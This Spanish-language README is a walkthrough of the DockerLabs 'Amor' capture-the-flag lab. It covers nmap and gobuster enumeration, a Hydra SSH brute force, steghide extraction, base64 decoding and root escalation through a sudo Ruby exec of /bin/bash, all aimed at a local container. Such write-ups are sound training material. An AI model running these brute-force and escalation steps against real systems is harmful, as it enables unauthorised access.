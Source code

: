 # DockerLabs - Reto Amor

## Descripción del Ejercicio

Este reto forma parte de la plataforma DockerLabs, orientada a practicar habilidades con Docker mediante laboratorios clasificados por dificultad. En esta ocasión, abordamos el reto de nivel **Fácil** llamado **Amor**, cuyo objetivo es desplegar un contenedor vulnerable, realizar escaneo, explotación por SSH, análisis de imágenes y esteganografía para obtener credenciales privilegiadas.

---

## 🛠️ Despliegue del Laboratorio

### Prerrequisitos
- Tener instalado Docker.

### Descarga del laboratorio

```bash
scp -r amor kali@192.168.1.12:/home/kali/Documents/
```

### Instalación de Docker en Kali (si no está instalado)

```bash
sudo apt install docker.io
```

### Despliegue de la máquina

```bash
./auto_deploy.sh amor.tar
```

---

## 🔎 Escaneo de la Red

### Paso 1: Identificar interfaz de red

```bash
ip add
```

### Paso 2: Descubrir hosts activos

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

### Paso 3: Escaneo de puertos

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

---

## 🌐 Enumeración Web

### Fuzzing con Gobuster

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

---

## 🔐 Ataque SSH con Hydra

### Ataque de fuerza bruta con Hydra

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

### Conexión SSH y navegación

```bash
ssh carlota@172.17.0.2
cd /carlota/Desktop/fotos/vacaciones
```

### Descarga del archivo

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```

---

## 🕵️‍♀️ Esteganografía

### Inspección de archivo

```bash
file imagen.jpg
steghide --extract -sf imagen.jpg
```

### Decodificación base64

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

### Escalada de privilegios

```bash
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
whoami
```

---

## 📘 Investigación de Herramientas

| Herramienta   | Definición | Funcionalidad | Casos de Uso |
|---------------|------------|---------------|--------------|
| Docker        | Contenedor ligero | Despliegue de entornos aislados | DevOps, pentesting, microservicios |
| SCP           | Secure Copy Protocol | Transferencia de archivos segura por SSH | Migración de archivos, backups |
| Netdiscover   | Detector de redes | Descubrimiento de IPs activas en red local | Pentesting, análisis de red |
| Nmap          | Network Mapper | Escaneo de puertos y detección de servicios | Auditorías de seguridad |
| Gobuster      | Fuerza bruta en directorios web | Fuzzing de rutas en servidores web | Enumeración de contenido oculto |
| Hydra         | Fuerza bruta por protocolos | Descubrimiento de credenciales | Pentesting SSH, FTP, HTTP |
| Steghide      | Herramienta de esteganografía | Ocultamiento/Extracción de datos en imágenes | CTFs, ciberseguridad ofensiva |
| Base64        | Codificación de datos | Ocultar cadenas en base64 | Transmisión de datos, CTFs |
| Ruby console  | Lenguaje de scripting | Ejecución de comandos con permisos | Escalada de privilegios |

---

## 🔍 Variantes y Explicación de Comandos

(Se explicarán en detalle en la siguiente sección complementaria del README)

---

## 🔄 Diagrama de Flujo del Procedimiento

![Diagrama de Flujo del CTF](flujo_reto_amor.png)

---

## 🧠 Conclusiones

Este laboratorio permitió aplicar múltiples técnicas de reconocimiento, escaneo, acceso remoto, esteganografía y escalada de privilegios de manera práctica y estructurada, reforzando competencias clave para CTFs y pentesting.

---

## 🖼️ Fuentes e Imágenes

- Capturas obtenidas de entorno real de laboratorio

![despliegue](despliegue%20maquina.png)

![Escaneo](escaneo%20puertos.png)

![identificacion](identif%20red.png)

- Diccionarios: `rockyou.txt`, `dirbuster`
- Imagen descargada en `/Desktop/fotos/vacaciones/imagen.jpg`

